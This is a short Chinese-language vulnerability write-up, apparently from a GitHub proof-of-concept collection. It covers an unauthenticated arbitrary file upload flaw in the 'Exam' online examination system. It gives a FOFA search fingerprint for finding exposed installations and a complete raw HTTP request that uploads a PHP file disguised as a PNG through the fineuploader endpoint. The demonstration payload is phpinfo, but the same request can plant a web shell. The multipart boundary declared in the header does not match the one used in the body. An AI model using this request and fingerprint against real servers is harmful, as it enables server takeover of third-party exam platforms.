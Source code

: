 ## Exam在线考试系统存在前台任意文件上传漏洞

Exam在线考试系统是一种现代地，全新的考试模型。它使用户可根据自身特点快速构建考试、测评、练习、竞赛、调查、分析及管理于一体的网络化考试平台，可轻松完成全员考试，问卷调查以及知识竞赛等工作，uploadFile接口存在任意文件上传漏洞，导致获取服务器权限。

## fofa

```
"app/core/styles/js/jquery.min.js"
```
![image](https://github.com/user-attachments/assets/935682cb-a5e6-4bfa-90ce-c4fdfe1c6b84)

## poc

```yaml
POST /index.php?document-api-fineuploader HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 198
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygfd0H3RWDeNNLaPy
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/index.php?document-api-fineuploader
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundarye776qKJKlcGtVlH5
Content-Disposition: form-data; name="qqfile"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundarye776qKJKlcGtVlH5--
```

![image-20240708111744898](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407081117994.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/KXcBpZ5rcdnHLey--NXQfg
